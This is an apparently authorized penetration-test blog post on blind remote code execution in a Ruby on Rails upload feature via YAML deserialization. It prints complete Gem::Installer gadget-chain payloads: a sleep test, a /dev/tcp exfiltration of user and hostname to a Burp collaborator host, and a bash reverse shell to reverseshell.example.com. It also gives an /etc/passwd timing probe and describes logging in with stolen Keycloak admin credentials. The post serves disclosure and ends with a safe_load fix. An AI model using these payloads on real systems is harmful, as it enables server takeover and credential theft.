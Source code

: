 ```yaml
---
layout: post
title:  "Blind Remote Code Execution through YAML Deserialization"
date:   2021-06-09
---
```


During an application security assessment of a Ruby on Rails project, I identified upload functionality that allowed users to submit text, CSV, and YAML files. The YAML option stood out due to its potential as a deserialization vulnerability.  

After several uploads, I found that the process validated file contents before uploading them to Azure blob storage. YAML files starting with **---!ruby/object:BadValue** triggered a fatal status, while other invalid YAML files returned an error status. This fatal status was the only indicator that the upload process might be vulnerable.

<figure>
  <img src="/assets/img/2021/blind-rce-status-indicator.png">
  <figcaption>Figure 1 – Fatal status on poc2.yml</figcaption>
</figure>  

Several researchers previously identified gadget chains in Ruby that could lead to code execution, as detailed in the GitHub Gist ["Ruby YAML Exploits."](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

I first tested the Gem::Requirement chain using nslookup and curl commands to a Burp collaborator but received no DNS lookup. After this chain failed, I tested the Gem::Installer chain with the same commands, but again no DNS lookup occurred.

After several attempts, I decided to try the sleep command for 10 minutes with the Gem::Installer chain.

```yaml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve
```

Uploading the YAML file caused the status icon to display a loading animation for 10 minutes, indicating that the sleep command executed successfully.

<figure>
  <img src="/assets/img/2021/yaml-deserial-rce-sleep-1.png">
  <figcaption>Figure 2 – Start of the upload</figcaption>
</figure>

<figure>
  <img src="/assets/img/2021/yaml-deserial-rce-sleep-2.png">
  <figcaption>Figure 3 – Nine minutes after the file was uploaded</figcaption>
</figure> 

After many failed attempts, I finally achieved success! While the sleep command doesn't demonstrate significant impact, it confirmed that code execution was possible. Although it could be used for data exfiltration through a Bash if condition (see below), this would be time-consuming and tedious.
```bash
if [ -f /etc/passwd ]; then sleep 5; fi
```  

After further consideration, I tried the bash -c command, echoing to **/dev/tcp/:remote-server/443**, hoping for a DNS lookup. To my surprise, I received a DNS lookup and was able to exfiltrate the user and server hostname.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.wkkib01k9lsnq9qm2pogo10tmksagz.burpcollaborator.net/443'"
         method_id: :resolve
```

<figure>
  <img src="/assets/img/2021/yaml-rce.png">
  <figcaption>Figure 4 – Exfiltrated user and server hostname through DNS lookup</figcaption>
</figure> 

Upon reviewing the server hostnames, I noticed they changed each time the same file was re-uploaded. It seemed there wasn’t much impact, as an Azure Serverless function or worker was likely being spun up. To assess potential impact, I needed to confirm access to environment variables for sensitive information.

I then decided to attempt a reverse shell on port 443, as it’s less likely to be filtered outbound, using the following YAML file.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/reverseshell.example.com/443 0>&1'"
         method_id: :resolve
```

Success! I gained a reverse shell and ran printenv, which revealed sensitive information, including Keycloak admin credentials, Redis, and Azure DB details.

<figure>
  <img src="/assets/img/2021/reverse-shell-env-vars.png">
  <figcaption>Figure 5 – Listed server environment variables</figcaption>
</figure> 

The server was not an Azure function, but a Kubernetes pod, likely running on Azure Kubernetes. Using the Keycloak admin credentials, I logged into Keycloak's master realm as the admin user through the following URL:  
**https://redacted.com/auth/realms/master/protocol/openid-connect/auth?client_id=account-console&redirect_uri=https%3A%2F%2Fredacted.com%2Fauth%2Frealms%2Fmaster%2Faccount%2F&state=:stateUUID&response_mode=fragment&response_type=code&scope=openid&nonce=:nonceUUID&code_challenge=:challengeValue&code_challenge_method=S256**

The state UUID, nonce UUID, and code challenge values were obtained from the web application's realm.

Given the high impact, the report was sent immediately, with remediation suggesting replacing Ruby's YAML.load() with YAML.safe_load(), as YAML.load() was likely the cause of the vulnerability.

References:  
https://ruby-doc.org/stdlib-2.6.1/libdoc/psych/rdoc/Psych.html  
https://www.elttam.com/blog/ruby-deserialization/  
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
